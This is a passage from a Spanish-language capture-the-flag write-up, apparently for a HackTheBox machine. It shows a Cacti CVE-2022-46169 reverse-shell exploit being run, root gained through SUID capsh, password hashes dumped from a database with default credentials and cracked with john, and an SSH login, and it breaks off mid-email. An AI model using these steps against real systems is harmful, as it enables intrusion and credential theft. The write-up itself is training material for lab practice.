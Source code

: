 ```bash
python3 CVE-2022-46169.py  -u http://10.129.216.153 --LHOST=<LHOST> --LPORT=<LPORT>
`````

Finalmente ganamos acceso al sistema.

#### Escalada de privilegios

Al hacer "hostname -I" nos dice que nuestra ip es 172.19.0.3 por lo que estamos en un contenedor.

Tras fuzzear el sistema vemos esto:

![4Pic]({{ '../assets/img/4.png' | relative_url }}){: .center-image }

En la web de [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) aparece cómo explotar el SUID "capsh"

```bash
/sbin/capsh --gid=0 --uid=0 -- 
`````

Y de esta manera nos convertimos en root.

Falta llegar a la máquina víctima por lo que seguimos auditanto esta máquina.

En la raiz hay un archivo llamado "entrypoint.sh" si listamos su contenido vemos que se conecta a una base de datos proporcionando unas credenciales por lo que haremos lo mismo.

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"
`````

Este comando nos muestra todas las tablas de todas las bases de datos, buscamos las que más nos llamen la atención, en concreto "user_auth"

```bash
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
`````

![5Pic]({{ '../assets/img/5.png' | relative_url }}){: .center-image }

Este comando nos devuelve 3 nombres de usuario y sus contraseñas hasheadas, el usuario guest no nos interesa así que lo descartamos y tratamos de romper los otros dos hashes con john.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
`````

Esperamos y al cabo de unos segundos nos devuelve la contraseña del usuario marcus.

Nos logueamos por SSH con su usuario y contraeseña:
```bash
ssh marcus@10.10.11.211
password: 
`````


Al conectarnos, abajo del todo aparece el mensaje de "You have mail". En el directorio /var hay otro directorio llamado mail por lo que entramos y nos aparece el siguiente texto:

---
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of
